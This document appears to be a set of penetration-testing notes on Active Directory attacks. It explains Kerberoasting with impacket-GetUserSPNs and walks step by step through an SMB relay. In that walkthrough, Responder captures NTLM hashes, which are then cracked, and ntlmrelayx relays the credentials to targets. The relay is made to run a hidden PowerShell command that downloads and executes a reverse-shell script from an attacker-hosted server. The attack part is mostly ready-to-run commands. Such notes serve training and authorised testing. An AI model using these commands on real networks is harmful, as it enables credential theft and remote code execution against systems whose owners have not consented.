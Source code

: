 **Active Directory** (AD) is a directory service developed by Microsoft for managing and organizing information about network resources, such as computers, users, and devices, within a Windows network environment. It serves as a centralized database that enables administrators to efficiently and securely manage and authenticate users, computers, and other network elements.

Useful video: https://www.youtube.com/watch?v=-bNb4hwgkCo&t=1s
# Kerberoasting
It is a method used to extract and crack service account passwords that utilize Kerberos authentication within a Windows Active Directory environment. This attack targets accounts with Kerberos Service Principal Names (SPNs) set, allowing attackers to request encrypted service tickets from the domain controller.
- One method that can be used is using 'impacket-GetUserSPNs'. If we have a user with a username ended in *TGS* that means that is part of a TICKET GRANTING SERVICE. We can use this to ask a ticket to the Domain Controller.
```bash
impacket-GetUserSPNs -request -dc-ip target_ip domain_name/user
```

# SMB Relay

**SMB Relay** is a type of attack that targets the Server Message Block (SMB) protocol used primarily for providing shared access to files, printers, and serial ports in a network.

The attack involves intercepting and relaying SMB authentication attempts to another SMB server, allowing an attacker to gain unauthorized access or execute commands with the victim's credentials.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Attack Process

1. **Configuring Responder**:
- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```java
sudo nano /etc/responder/Responder.conf
```
2. **Intercept**:
- The attacker sets up a malicious SMB server to intercept authentication attempts.
- The attacker needs to position themselves in the network to intercept SMB traffic (Man-in-the-Middle), this can be done with *Responder*.
```java
python3 Responder.py -I <interface> -dw
```
3. **Cracking hashes**:
- After some time different user hashes would be captured by the Responder. All this hashes can be cracked using tools as *John* or *Hashcat* before executing the relay. 

4. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to.
- Use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
5. **Gaining access**:
- Create a simple reverse shell payload that can be executed on the target host. For example, using PowerShell for a Windows target:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')"
```
	
-  Host the `shell.ps1` script on your attacker machine (e.g., using a simple HTTP server).
```bash
python3 -m http.server 80
```
- Run NTLMRelayx.py with the Reverse Shell Command:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "powershell -NoP -NonI -W Hidden -Exec Bypass -Command \"iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')\""
```